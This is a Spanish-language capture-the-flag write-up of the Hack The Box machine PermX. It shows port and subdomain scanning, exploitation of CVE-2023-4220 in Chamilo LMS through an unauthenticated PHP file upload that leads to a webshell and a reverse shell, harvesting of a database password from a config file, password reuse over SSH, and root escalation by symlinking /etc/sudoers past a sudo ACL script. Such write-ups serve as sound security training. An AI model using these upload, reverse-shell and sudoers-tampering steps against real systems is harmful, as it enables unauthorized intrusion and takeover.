



**Documentación de la Máquina PermX**
=====================================

**Índice**
----------

- [**Documentación de la Máquina PermX**](#documentación-de-la-máquina-permx)
  - [**Índice**](#índice)
  - [**Introducción**](#introducción)
  - [**Reconocimiento**](#reconocimiento)
    - [**Escaneo de Puertos**](#escaneo-de-puertos)
  - [**Búsqueda de Subdominios**](#búsqueda-de-subdominios)
  - [**Identificación de la Vulnerabilidad**](#identificación-de-la-vulnerabilidad)
    - [**Explotación de la vulnerabilidad**](#explotación-de-la-vulnerabilidad)
    - [**Explotación de la reverse shell**](#explotación-de-la-reverse-shell)
  - [**Escalada de privilegios**](#escalada-de-privilegios)

**Introducción**
----------------

*   **Nombre de la Máquina**: PermX
*   **Plataforma**: Hack The Box
*   **Dificultad**: Fcil
*   **Resumen**: RCE (Remote Code Execution)

**Reconocimiento**
------------------

### **Escaneo de Puertos**

**Comando Nmap**:

    nmap -sC -sV -oN scan_ini 10.10.11.23
    

*   sC: Para utilizar los scripts de escaneo básicos.
*   sV: Nos indica la versión de los servicios con los puertos abiertos
*   oN scan\_ini: La salida de nmap se guarda en un archivo scan\_ini.

**Salida Nmap**:

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-20 14:15 UTC
    Nmap scan report for permx.htb (10.10.11.23)
    Host is up (0.057s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
    |_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
    80/tcp open  http    Apache httpd 2.4.52
    |_http-title: eLEARNING
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.55 seconds
    

**Conclusión de resultado Nmap**:

Nmap nos indica en este escaneo que la máquina tiene dos puertos abiertos. El 22 el cual, como en este caso, suele ser el puerto de un servidor SSH y el 80 el puerto de un servidor web. Me decido a observar que devuelve este servidor web usando un Firefox: 

Para solucionar esto añadimos la siguiente linea al archivo **/etc/hosts**: 

Ahora entrando de nuevo desde Firefox, ya mejora la cosa 😂: 

**Búsqueda de Subdominios**
---------------------------

Como navengando por la web no encuentro nada útil en el código fuente, ni algún tipo de formulario para probar SQLi, decido probar a buscar subdominios con la herramienta [ffuf](https://github.com/ffuf/ffuf) y [lista de posibles dominios](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-20000.txt):

    ┌─[✗]─[root@parrot]─[/home/user/Desktop/htb/PermX]
    └──╼ #ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w subdomains-top1million-20000.txt -fw 18
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.1.0-dev
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://permx.htb
     :: Wordlist         : FUZZ: /home/user/Desktop/htb/PermX/subdomains-top1million-20000.txt
     :: Header           : Host: FUZZ.permx.htb
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
     :: Filter           : Response words: 18
    ________________________________________________
    
    lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 589ms]
    www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 4991ms]
    

Vemos que tenemos un nuevo dominio a parte del www al que accedimos al principio, entramos en lms.permx.htb y de nuevo firefox no resuelve la url por lo que añado una nueva linea en /etc/hosts para que resuelva correctamente. Una vez añadida nos encontramos con este panel de acceso:

**Identificación de la Vulnerabilidad**
---------------------------------------

Pruebo con SQLi y no consigo nada, asi que mirando por 'internete' para ver que era esta plataforma, por que la verdad nunca antes habia oido hablar de ella. Veo que es un software open-source para publicar cursos online... a mayores encuentro que tiene una vulnerabilidad [(CVE-2023-4220)](https://starlabs.sg/advisories/23/23-4220/). Como se explica en el propio artículo consiste en un fallo a la hora de sanatizar los archivos que se suben al servidor, pudiendo subir así subir .php ejecutables desde la máquina atacantes, vamos lo que viene siendo Remote Code Execution. Hago la prueba que pone en el artículo y 'voilà' me devuelve la salida esperada viendo info. de el usuario que ejecuta el .php desde la maquina víctima:

### **Explotación de la vulnerabilidad**

    ┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
    └──╼ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' 
        The file has successfully been uploaded.┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
    └──╼ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### **Explotación de la reverse shell**

Pues tocaría hacer una reverse shell desde la máquina objetivo. Utilizo el siguiente [.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), sustituyendo mi ip de htb y el puerto que pongo a la escucha con nc -lvnp 1234 desde mi máquina: 

**Escuchar desde máquina atacante**: (python3 -c 'import pty; pty.spawn("/bin/bash")' para tener una shell mas fácil de usar (resumen resumido))

    ┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
    └──╼ #nc -lvnp 1234
    Listening on 0.0.0.0 1234
    Connection received on 10.10.11.23 56712
    Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
     15:27:32 up  1:01,  0 users,  load average: 0.00, 0.01, 0.13
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    www-data@permx:/$ whoami
    whoami
    www-data
    

**Ejecutar .php**:

    ┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
    └──╼ #curl -F 'bigUploadFile=@php-reverse-shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' 
    The file has successfully been uploaded.┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
    └──╼ #curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/php-reverse-shell.php'
    
    

Curioseando con la reverse shell veo un carpeta mtz en el directorio home de la victima a la que no tenemos acceso... sigo mirando...:

    www-data@permx:/$ cd home
    cd home
    www-data@permx:/home$ ls
    ls
    mtz
    www-data@permx:/home$ cd mtz
    cd mtz
    bash: cd: mtz: Permission denied
    

En la carpeta donde se configura el servidor web busco alguna credencial para el servicio de SSH o algo que resulte util. Vemos un configuration.php interesante, en el encontramos un user y un pass para lo que sería una base de datos:

    www-data@permx:/var/www/chamilo/app/config$ cat configuration.php | grep pass
    cat configuration.php | grep pass
    $_configuration['db_password'] = '03F6lY3uXAP2bkW8';
    // Security word for password recovery
    $_configuration['password_encryption'] = 'bcrypt';
    ...
    
    
    www-data@permx:/var/www/chamilo/app/config$ cat configuration.php | grep user 
    cat configuration.php | grep user
    $_configuration['db_user'] = 'chamilo';
    // Map CAS attributes with user/user extrafields values BT#17620
    ...
    
    

A primera vista son las credenciales de una base de datos asi que pruebo a ver si son correctas. Me encuentro con estos hashes de contraseñas, lo primero que pienso es usar HashCat para ver si saco las contraseñas pero como el ordenador no lo da resuelto (espero mucho tiempo jaja) pues decido ir a ver si hay otra solución:

    MariaDB [chamilo]> select username, password from user;
    select username, password from user;
    +----------+--------------------------------------------------------------+
    | username | password                                                     |
    +----------+--------------------------------------------------------------+
    | admin    | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra |
    | anon     | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS |
    +----------+--------------------------------------------------------------+
    2 rows in set (0.000 sec)
    

En esta parte, ya final para el user.txt tuve la 'ayuda' con un amigo y es que resulta que tanto la base de datos como el usuario de ssh, (el que no es root) mtz, comparten la misma contraseña !!

    ┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
    └──╼ #ssh tmz@10.10.11.23
    The authenticity of host '10.10.11.23 (10.10.11.23)' can't be established.
    ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.11.23' (ED25519) to the list of known hosts.
    tmz@10.10.11.23's password: 
    Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/pro
    
     System information as of Sat Jul 20 04:49:27 PM UTC 2024
    
      System load:           0.21
      Usage of /:            95.1% of 7.19GB
      Memory usage:          25%
      Swap usage:            0%
      Processes:             444
      Users logged in:       1
      IPv4 address for eth0: 10.10.11.23
      IPv6 address for eth0: dead:beef::250:56ff:fe94:ddd3
    
      => / is using 95.1% of 7.19GB
      => There is 1 zombie process.
    
    
    Expanded Security Maintenance for Applications is not enabled.
    
    0 updates can be applied immediately.
    
    Enable ESM Apps to receive additional future security updates.
    See https://ubuntu.com/esm or run: sudo pro status
    
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    
    Last login: Sat Jul 20 16:38:43 2024 from 10.10.14.253
    mtz@permx:~$ whoami
    mtz
    mtz@permx:~$ pwd
    /home/mtz
    mtz@permx:~$ ls
    helpfile  su_makineyle_oynamayın  user.txt
    mtz@permx:~$ cat user.txt
    

**Escalada de privilegios**
---------------------------

La solución encontrada para esta parte de la máquina consiste en, primero, buscar alguna ejecución como root desde el usuario mtz:

    mtz@permx:~$ sudo -l
    Matching Defaults entries for mtz on permx:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
    
    User mtz may run the following commands on permx:
        (ALL : ALL) NOPASSWD: /opt/acl.sh
    

El contenido de este archivo acl.sh es que mediante parámetros correctos podemos cambiar los permisos de un archivo...

    mtz@permx:~$ cat /opt/acl.sh 
    #!/bin/bash
    
    if [ "$#" -ne 3 ]; then
        /usr/bin/echo "Usage: $0 user perm file"
        exit 1
    fi
    
    user="$1"
    perm="$2"
    target="$3"
    
    if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
        /usr/bin/echo "Access denied."
        exit 1
    fi
    
    # Check if the path is a file
    if [ ! -f "$target" ]; then
        /usr/bin/echo "Target must be a file."
        exit 1
    fi
    
    /usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
    

De primeras pruebo a ver si en el directorio de root puedo leer el archivo con la flag de root, mal por mi parte por que no tengo permisos en el directorio root 😂:

    mtz@permx:~$ sudo /opt/acl.sh mtz rw /root/root.txt
    Access denied.
    

Asi que mejor modificar el archivo que me limita el acceso como sudo, en /etc/sudoers (ahora es obvio pero no me di cuenta... no tengo acceso 😂):

    mtz@permx:~$ sudo /opt/acl.sh mtz rw /etc/sudoers
    Access denied.
    

Pruebo a creear un enlace simbólico:

    mtz@permx:~$ ln -s /etc/sudoers ./enlace
    mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/enlace
    mtz@permx:~$ cat enlace
    #
    # This file MUST be edited with the 'visudo' command as root.
    #
    # Please consider adding local content in /etc/sudoers.d/ instead of
    # directly modifying this file.
    #
    # See the man page for details on how to write a sudoers file.
    #
    Defaults	env_reset
    Defaults	mail_badpass
    Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
    Defaults	use_pty
    
    # This preserves proxy settings from user environments of root
    # equivalent users (group sudo)
    #Defaults:%sudo env_keep += "http_proxy https_proxy ftp_proxy all_proxy no_proxy"
    
    # This allows running arbitrary commands, but so does ALL, and it means
    # different sudoers have their choice of editor respected.
    #Defaults:%sudo env_keep += "EDITOR"
    
    # Completely harmless preservation of a user preference.
    #Defaults:%sudo env_keep += "GREP_COLOR"
    
    # While you shouldn't normally run git as root, you need to with etckeeper
    #Defaults:%sudo env_keep += "GIT_AUTHOR_* GIT_COMMITTER_*"
    
    # Per-user preferences; root won't have sensible values for them.
    #Defaults:%sudo env_keep += "EMAIL DEBEMAIL DEBFULLNAME"
    
    # "sudo scp" or "sudo rsync" should be able to use your SSH agent.
    #Defaults:%sudo env_keep += "SSH_AGENT_PID SSH_AUTH_SOCK"
    
    # Ditto for GPG agent
    #Defaults:%sudo env_keep += "GPG_AGENT_INFO"
    
    # Host alias specification
    
    # User alias specification
    
    # Cmnd alias specification
    
    # User privilege specification
    root	ALL=(ALL:ALL) ALL
    
    # Members of the admin group may gain root privileges
    %admin ALL=(ALL) ALL
    
    # Allow members of group sudo to execute any command
    %sudo	ALL=(ALL:ALL) ALL
    
    # See sudoers(5) for more information on "@include" directives:
    
    @includedir /etc/sudoers.d
    mtz ALL=(ALL:ALL) NOPASSWD: /opt/acl.sh
    

Edito la ultima linea sustituyendola por ALL y...

    mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/enlace
    mtz@permx:~$ nano enlace
    mtz@permx:~$ sudo su
    root@permx:/home/mtz# cd /root
    root@permx:~# ls
    backup  reset.sh  root.txt
    root@permx:~# cat root.txt
    

🎉🎉🎉

